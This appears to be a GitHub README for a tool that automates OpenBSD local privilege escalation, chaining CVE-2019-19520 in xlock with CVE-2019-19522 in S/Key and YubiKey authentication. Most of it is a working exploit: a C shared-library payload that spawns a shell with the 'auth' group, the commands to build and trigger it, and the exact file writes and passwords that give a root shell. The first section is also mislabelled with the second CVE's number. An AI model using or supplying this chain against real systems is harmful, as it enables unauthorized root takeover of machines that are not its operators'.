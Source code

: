 # Openbsd-Privilege-Escalation
A Script that automates the process of escalating privileges on openbsd system (CVE-2019-19520)  by exploiting the xlock binary and againing it's sgid and escalating to the root user by (CVE-2019-19522) exploiting the privileges of auth group and adding keys to the Skey or Yubikey


The C code is pretty much a copy of the original poc from: https://www.openwall.com/lists/oss-security/2019/12/04/5






CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is
set-group-ID "auth", not set-user-ID; the following check is therefore
incomplete and should use issetugid() instead:

------------------------------------------------------------------------------
101 _X_HIDDEN void *
102 driOpenDriver(const char *driverName)
103 {
...
113    if (geteuid() == getuid()) {
114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
115       libPaths = getenv("LIBGL_DRIVERS_PATH");


A local attacker can exploit this vulnerability and dlopen() their own
driver to obtain the privileges of the group "auth":

$ id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)

$ cd /tmp

$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 2706

$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66

$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)


Now we have obtained the group - auth's privileges, we can now exploit the privileges by adding our own root keys to Skey or Yubikey


CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

If the S/Key or YubiKey authentication type is enabled (they are both
installed by default but disabled), then a local attacker can exploit
the privileges of the group "auth" to obtain the full privileges of the
user "root" (because login_skey and login_yubikey do not verify that the
files in /etc/skey and /var/db/yubikey belong to the correct user, and
these directories are both writable by the group "auth").

(Note: to obtain the privileges of the group "auth", a local attacker
can first exploit CVE-2019-19520 in xlock.)

If S/Key is enabled (via skeyinit -E), a local attacker with "auth"
privileges can add an S/Key entry (a file in /etc/skey) for the user
"root" (if this file already exists, the attacker cannot simply remove
or rename it, because /etc/skey is sticky; a simple workaround exists,
and is left as an exercise for the interested reader):


$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root

$ chmod 0600 /etc/skey/root

$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN

# id
uid=0(root) gid=0(wheel) ...


If YubiKey is enabled (via login.conf), a local attacker with "auth"
privileges can add a YubiKey entry (two files in /var/db/yubikey) for
the user "root" (if these files already exist, the attacker can simply
remove or rename them, because /var/db/yubikey is not sticky):


$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 32d32ddfb7d5 > /var/db/yubikey/root.uid

$ echo 554d5eedfd75fb96cc74d52609505216 > /var/db/yubikey/root.key

$ env -i TERM=vt220 su -l -a yubikey
Password: krkhgtuhdnjclrikikklulkldlutreul

# id
uid=0(root) gid=0(wheel) ...
